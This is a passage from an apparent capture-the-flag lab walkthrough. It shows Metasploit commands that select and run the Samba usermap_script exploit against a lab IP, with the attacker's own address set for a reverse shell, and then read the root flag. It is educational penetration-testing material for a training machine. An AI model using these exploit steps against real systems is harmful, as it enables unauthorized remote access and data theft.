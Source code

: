 {{< image src="../../../lame-machine-img/1.png" alt="metasploit" position="center" style="border-radius: 8px;" >}}

---

**Select and configure the exploit:**

~~~bash
msfconsole> use exploit/multi/samba/usermap_script
msfconsole> set RHOSTS 10.129.79.228
msfconsole> set LHOST [Your IP]
~~~

{{< image src="../../../lame-machine-img/2.png" alt="metasploit" position="center" style="border-radius: 8px;" >}}

Here, we're setting up the exploit with our target IP (RHOSTS) and our own IP (LHOST) for the reverse shell connection.

---
Run the exploit:

~~~bash
msfconsole> run
~~~

{{< image src="../../../lame-machine-img/3.png" alt="metasploit" position="center" style="border-radius: 8px;" >}}

---

### 4. Post-Exploitation

Once we have access to the system, our goal is to find and extract valuable information, such as flags in a CTF scenario.

**Obtaining Root Flag**

Navigate to root directory:

~~~bash
cd root
~~~

{{< image src="../../../lame-machine-img/4.png" alt="reverse-shell" position="center" style="border-radius: 8px;" >}}

---

**Cat the root flag:**

~~~bash
cat root.txt
~~~

---

**Obtaining User Flag**

*Identify users:*

